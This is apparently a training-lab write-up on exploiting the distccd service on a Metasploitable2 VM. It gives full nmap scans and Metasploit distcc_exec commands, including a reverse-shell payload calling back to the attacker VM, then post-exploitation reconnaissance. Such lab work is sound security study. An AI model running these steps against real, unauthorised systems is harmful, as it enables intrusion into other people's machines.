








# Red Team Lab: Metasploitable2 - distccd Exploit

## Objective

The purpose of this lab is to demonstrate a controlled, ethical exploitation of a vulnerable service (distccd) on the Metasploitable2 virtual machine. This exercise highlights reconnaissance, vulnerability identification, exploitation, and initial post-exploitation steps.

## Environment Setup

* **Attacker VM:** Kali Linux 192.168.56.101

* **Target VM:** Metasploitable2 192.168.56.102

* **Tools Used:** Nmap for reconnaissance, Metasploit Framework for exploitation

## Step 1: Reconnaissance

Performed a full TCP port scan to discover open services on the target VM.

```bash
nmap -p- -T4 -sS --open -oA nmap_full 192.168.56.102
```


**Observations:**

* Open port 3632 identified running the **distccd** service.
* Other open ports recorded for future analysis.

**Breakdown:**

* **Nmap:** Network mapping tool that scans for open ports and services.
* **-p-:** Scans all 65535 TCP ports.
* **-T4:** Aggressive timing for faster scanning.
* **-sS:** SYN scan to identify open ports stealthily.
* **--open:** Show only open ports.

**Confirm conection**

```bash
nmap -sV -p 3632 192.168.56.102 
```

```bash
nc -vz 192.168.56.102 3632
```


## Step 2: Vulnerability Identification

Searched for a Metasploit module targeting the distccd service.

```bash
msf6 > search distcc
```


**Result:**

```
exploit/unix/misc/distcc_exec - DistCC Daemon Command Execution
```

* Rank: Excellent (high confidence in exploit reliability)
* Description: Remote command execution on the distccd service.

**Explanation:**

* **Metasploit:** Framework for developing and executing exploits.
* **Module rank:** Indicates reliability and stability of the exploit.
* **RCE (Remote Code Execution):** Ability to execute commands on the target machine remotely.

## Step 3: Module Configuration

Loaded the exploit module and set required parameters.

```bash
msf6 > use exploit/unix/misc/distcc_exec
msf6 > set RHOSTS 192.168.56.102
msf6 > set RPORT 3632
msf6 > set LHOST 192.168.56.101
msf6 > set LPORT 4445
msf6 > set PAYLOAD cmd/unix/reverse
msf6 > show options
```



**Explanation of options:**

* **RHOSTS:** IP address of the target machine.
* **RPORT:** Port on the target running the vulnerable service.
* **LHOST:** Local attacker IP where the reverse shell will connect.
* **LPORT:** Local listening port for the reverse shell.
* **Payload:** Defines the action after successful exploitation (here, a reverse shell).

## Step 4: Exploitation

Executed the exploit to gain a command shell on the target.

```bash
msf6 > exploit
```

**Outcome:**

* Reverse shell established from Metasploitable2 to Kali Linux.
* Command shell session opened:

  * User: daemon (low-privileged)
  * UID/GID: 1 (daemon)

**Explanation:**

* **Reverse shell:** The target connects back to the attacker, bypassing firewall restrictions.
* **Session:** Interactive connection to run commands on the target.

## Step 5: Post-Exploitation

Verified system access and collected initial information.

Commands executed:

```bash
whoami
id
uname -a
pwd
ls -la
```


**Observations:**

* User context: daemon (non-root)
* Kernel and OS: Linux 2.6.24-16-server
* Current working directory: /tmp
* Directory contents listed, including temporary and system files.

**Explanation:**

* **whoami/id:** Confirm user privileges.
* **uname -a:** Identify system kernel and architecture.
* **pwd/ls -la:** Explore current directories and file permissions.


## Conclusion

* Successfully exploited the distccd service on Metasploitable2.
* Gained low-privileged shell access and explored the system.
* Demonstrated full workflow: reconnaissance, vulnerability identification, exploitation, post-exploitation.
* This lab highlights ethical hacking practices in a controlled environment.

---

**Note:** All actions were performed in a controlled, isolated lab environment. No live systems were harmed.
